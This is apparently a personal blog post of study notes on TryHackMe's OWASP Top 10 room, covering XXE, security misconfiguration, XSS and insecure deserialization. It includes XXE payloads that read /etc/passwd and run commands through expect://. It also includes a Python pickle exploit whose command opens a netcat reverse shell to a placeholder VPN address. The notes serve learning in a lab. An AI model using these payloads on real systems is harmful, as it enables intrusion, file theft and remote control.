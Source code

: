 # TryHackMe: Complete Beginner

## OWASP Top 10

### (Severity 04) XML External Entity

As with [injection attacks](2021-10-05-tryhackme-complete-beginner.md), XML external entity (XXE) attacks are broken down into two types: in-band (analogous us to active injection attacks) and out-of-band (OOB-XXE or “blind” XXE, which are of course analogous to blind injection attacks).

The encoding/version bit of an XML document is called the “prolog”.

```xml
<?xml version="1.0" encoding="UTF-8"?>
```

Also, there is one and only one root element in an XML document. And XML is case-sensitive. Whee!

DTDs look very XML-like themselves. Using the actual example from TryHackMe, this DTD:

```dtd
<!DOCTYPE note [
	<!ELEMENT note (to, from, heading, body)>
	<!ELEMENT to (#PCDATA)>
	<!ELEMENT from (#PCDATA)>
	<!ELEMENT heading (#PCDATA)>
	<!ELEMENT body (#PCDATA)>
]>
```

Defines this XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>foo</to>
    <from>bar</from>
    <heading>baz</heading>
    <body>etc.</body>
</note>
```

(`#PCDATA` indicates “parsable character data” — an XML-encoded string.) 

There are three basic important XML bits here:

* `!DOCTYPE` defines the document type *and* the root element.
* `!ELEMENT` defines additional elements (so if I understand this correctly, a !DOCTYPE declaration must contain at least one !ELEMENT with the same name).
* `!ENTITY` defines entities like `&gt;` — basically shortcuts for other data. There seems to be a lot more to [XML entities](https://xmlwriter.net/xml_guide/entity_declaration.shtml) than just this though…

The SYSTEM keyword can be included in !ENTITY declarations (or in the XML document !DOCTYPE declaration), and means “read this from the current system”.

Basically, you can think of the bit between the brackets (`[]`) in the DTD as getting slotted into the URI specifying the DTD in the XML !DOCTYPE. In fact, we can insert additional document type definitions into the end of a !DOCTYPE statement in this way; combining this with the SYSTEM declaration can allow us to read any files the webserver has access to.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM "file:///etc/passwd">]>
<root>&read;</root>
```

This basically strikes me as more-or-less the same thing as an injection attack, just that we’re targeting the XML parser rather than the website code.

[RCE through XEE is apparently rare](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection), but can be achieved via the PHP expect module.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxerce SYSTEM "expect://id">]>
<root>&xxerce;</root>
```

It looks like this is something that would be more commonly attacked over an API than directly through a web front-end.

### (Severity 06) Security Misconfiguration

Basically, this about the use of defaults or bad configurations of existing security controls, whereas “broken access control” (which didn’t really include anything worth noting explicitly) is about missing or non-functional controls.

### (Severity 07) Cross-Site Scripting

Three varieties:

* Stored XSS (saved to the website database)
* Reflected XSS (included in the user request, for example via a malicious link)
* [DOM-Based XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting#DOM_Based_XSS_.28AKA_Type-0.29) (a little unclear what this is, but it looks like it’s basically similar to a reflection attack except that everything happens client-side)

[XSS-Payloads is a library of potentially useful XSS tools.](http://www.xss-payloads.com/)

Mostly, this is about injecting `<script/>` tags.

### (Severity 08) Insecure Deserialization

Basically, this is about trusting user-provided input to determine state.

On the low end, this can be something like using a cookie to determine user privileges.

But on the high end, if the application is actually *executing* data provided by the user *as code*.

So what’s the difference between this and injection? (As far as I can tell) In command injection we’re abusing an existing function to get the web application to run a command (system, SQL, whatever) for us, while insecure deserialization is specifically about manipulating the internal state of the application (which can include the before-mentioned data-as-code trick).

Where the name of this vulnerability starts to make more sense is when the application is encoding (serializing) objects or other data structures, storing them on the user side, and then decoding (deserializing) the structure at a later time and using / trusting it without further checks.

In the TryHackMe example we’re attacking the Python pickle.loads() operation, which reconstructs objects from an encoded data stream. When an object is reconstructed it is actually fully initialized, which means that things like [`object.__reduce__()`](https://docs.python.org/3/library/pickle.html#object.__reduce__) are run.

[This post is much clearer than TryHackMe when it comes to explaining how we’re attacking pickle.loads().](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

Anyways, the TryHackMe room has us use the following code to create a malicious base64 encoded object to feed pickle.loads() (YOUR_TRYHACKME_VPN_IP gets replaced by your VPN IP):

```python
import pickle		
import sys		
import base64		

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat YOUR_TRYHACKME_VPN_IP 4444 > /tmp/f'		

class rce(object):		
    def __reduce__(self):		
        import os		
        return (os.system,(command,))		

print(base64.b64encode(pickle.dumps(rce())))
```

What’s getting encoded here is the `rce` class. Python will call `rce.__reduce__()` to determine how to initialize this class when pickle.loads() deserializes it, and `__reduce__()` wil return the tuple `(os.system, (command,))`, where `command` is basically our standard Metasploit reverse shell. Python then initializes the class by using os.system to call `command`, and there’s our reverse shell!

(SIDE NOTE: Isn’t `nc` a more common name for `netcat`? Debian provides links to both in /etc/aleternatives, but it seems best not to assume we’re on a Debian system…)

- - - -

👤 Nathan Acks
📅 October 6, 2021
